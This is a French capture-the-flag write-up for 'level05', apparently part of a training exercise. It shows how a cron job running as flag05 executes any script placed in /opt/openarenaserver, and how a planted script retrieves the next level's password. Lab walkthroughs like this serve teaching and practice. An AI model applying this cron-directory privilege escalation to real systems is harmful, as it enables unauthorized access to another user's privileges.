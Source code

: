 # Rapport CTF - [level05]


### Observation:
Quand nous rentrons dans le level nous avons un message qui nous informe que nous avons un mail 
Nous allons donc essayer de le trouver avec la commande suivante: `find / -type d -name "mail" 2> /dev/null`

On trouve un exécutable a `/var/mail` qui se nomme `level05`

On comprend que c'est un exécutable qui exécute tout ce qu'il y a dans le fichier openarenaserver


### Code:
Nous ne pouvons pas l'exécuter, car nous n'avons pas les droits suffisants. \
Mais si on le cat nous obtenons: 
```sh
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

Nous pouvons voir que c'est une commande cron tab qui est exécuter toutes les 2 min et qui lance le programme `/usr/sbin/openarenaserver`

Si maintenant, nous regardons `cat /usr/sbin/openarenaserver`: 
``` bash
#!/bin/sh

for i in /opt/openarenaserver/* ; do
(ulimit -t 5; bash -x "$i")
rm -f "$i"
done
```

Ce programme exécute tous les exécutables qui se trouvent dans `/opt/openarenaserver/` puis les supprimes.


### Solution :
Nous devons donc créer un exécutable qui se trouve dans `/opt/openarenaserver/`, qui vas utiliser `getflag` et l'envoyer dans un fichier texte pour pouvoir lire le mot de passe de level06  
On ajoute le code suivant : `echo "getflag > /tmp/resultat.txt" > /opt/openarenaserver/test.sh`

Puis on attend que le script cron tab exécute "test.sh" toutes les 2 minutes.

Il ne nous reste plus qu'à `cat /tmp/resultat.txt` pour obtenir le mot de passe de level06 sans passer par le flag05

